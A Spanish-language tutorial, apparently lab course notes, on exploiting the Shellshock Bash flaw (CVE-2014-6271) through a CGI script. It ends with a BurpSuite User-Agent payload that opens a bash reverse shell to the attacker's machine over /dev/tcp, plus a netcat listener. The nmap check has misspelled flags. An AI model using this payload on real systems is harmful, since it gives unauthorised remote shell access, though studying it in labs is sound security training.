



# Exploiting Bash CVE-2014-6271 Vulnerability (Shellshock)

**Shellshock (CVE-2014-6271)** es el nombre que recibe una familia de vulnerabilidades en Bash (desde la versión 1.3) que permiten ejecutar comandos arbitrarios de forma remota a través de Bash y permite obtener acceso remoto al sistema objetivo mediante una shell inversa. Bash es un intérprete de comandos de sistemas \*Nix que forma parte del proyecto GNU Project y es la shell predeterminada en la mayoría de las distribuciones de Linux.

Shellshock se debe a un fallo en Bash, por el cual ejecuta erróneamente comandos que aparecen después de una secuencia de caracteres como `() { :; };`. Solo afecta a sistemas Linux y otros sistemas tipo Unix, ya que Windows no utiliza Bash de forma nativa.

Los servidores web Apache HTTP Server configurados para ejecutar scripts CGI o archivos .sh también son vulnerables a este ataque. Los scripts CGI (Common Gateway Interface) son utilizados por Apache para ejecutar comandos en el sistema Linux; posteriormente, la salida de esos comandos se muestra al cliente que realizó la solicitud. Un atacante puede aprovechar Shellshock para inyectar comandos maliciosos a través de variables de entorno que son procesadas por Bash, logrando así la ejecución remota de código en sistemas vulnerables.

## Enumeración

Para comprobar si un sistema es vulnerable, podemos usar nmap:

```bash
nmap --scirpt http-shellshock --scritp-args "http-shellshock.uri=/ruta/scirpt.cgi" <IP>
```

## Explotación

**Usando `FoxyProxy` y `BurpSuite`**

`FoxyProxy` es una extensión para navegadores que permite gestionar y cambiar fácilmente la configuración de proxy. Sus funciones principales son:

- Activar o desactivar un proxy con un clic.
- Utilizar diferentes proxies para distintos sitios web.
- Redirigir automáticamente el tráfico de determinadas URL a través de un proxy específico.
- Evitar tener que modificar manualmente la configuración de red del navegador.

`BurpSuite` es una plataforma para analizar y evaluar la seguridad de aplicaciones web. Entre sus herramientas destacan:

- **Proxy:** intercepta peticiones y respuestas HTTP/HTTPS.
- **Repeater:** permite modificar y reenviar solicitudes manualmente.
- **Intruder:** automatiza pruebas sobre parámetros y formularios.
- **Scanner (versión Professional):** busca vulnerabilidades automáticamente.
- **Decoder y Comparer:** ayudan a analizar datos y respuestas.

Lo primero que hacemos es activar la redirección del trafico a traves de `BurpSuite` con `FoxyProxy`:



En `BurpSuite` nos vamos a proxy y nos aseguramos de que la intercepción esté activa. Volvemos a firefox y actualizamos o cargamos la url donde se encuentra el script, por ejemplo: `demo.ine.local/gettime.cgi`. El siguiente paso es enviar lo que vemos al repeater:



Escribimos nuestro comando en el `User-Agent` y pulsamos send:



Para iniciar una shell inversa creamos un listener con `netcat`:

```bash
nc -nvlp <puerto>
```

Por último, escribimos el comando en `BurpSuite`:

```bash
() { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/<IP_kali>/<puerto_kali> 0>&1'
```


[⟵ Anterior](../05_sistema.md#explotación-linux)
